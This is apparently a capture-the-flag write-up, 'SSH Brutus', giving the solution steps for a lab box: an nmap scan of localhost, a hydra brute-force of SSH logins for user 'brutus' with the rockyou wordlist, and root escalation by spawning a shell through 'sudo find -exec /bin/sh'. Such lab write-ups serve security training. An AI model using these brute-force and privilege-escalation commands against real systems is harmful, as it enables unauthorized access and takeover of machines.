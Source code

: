 # CTF 1: SSH Brutus

## Requirements
- [nmap](https://nmap.org/)
- [hydra](https://www.kali.org/tools/hydra/)
- [wordlists](https://www.kali.org/tools/wordlists/) -> rockyou.txt

## About Categorize
- Brute Force
- Privilege escalation

## Plan of Engagement
1. Port Scanning -> 22
2. SSH Exploit (brute force)
3. Privilege escalation with sudo find to root

## External Resources
- [GTFOBins](https://gtfobins.github.io/)

## Solution
Nmap port scan:
```sh
sudo nmap -sS -sC -F 127.0.0.1
```

Crack password:
```sh
hydra -l brutus -P /usr/share/wordlists/rockyou.txt 127.0.0.1 ssh
```

Privileges escalation:
```Sh
sudo find . -exec /bin/sh \; -quit
```
